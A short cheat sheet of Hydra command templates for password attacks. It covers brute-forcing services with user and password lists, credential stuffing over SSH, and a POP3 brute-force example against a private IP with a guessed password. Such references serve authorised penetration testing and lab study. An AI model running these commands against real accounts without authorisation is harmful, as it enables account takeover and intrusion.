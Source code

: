 # Hydra

% hydra

## hydra - Crack passwords with user and password lists
```
hydra -L user.list -P password.list <service>://<ip>
```

## hydra - Crack passwords with a username and password list
```
hydra -l username -P password.list <service>://<ip>
```

## hydra - Crack passwords with a user list and password
```
hydra -L user.list -p password <service>://<ip>
```

## hydra - Credential stuffing attack
```
hydra -C <user_pass.list> ssh://<IP>
```
## hydra - Brute-force POP3
```
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```
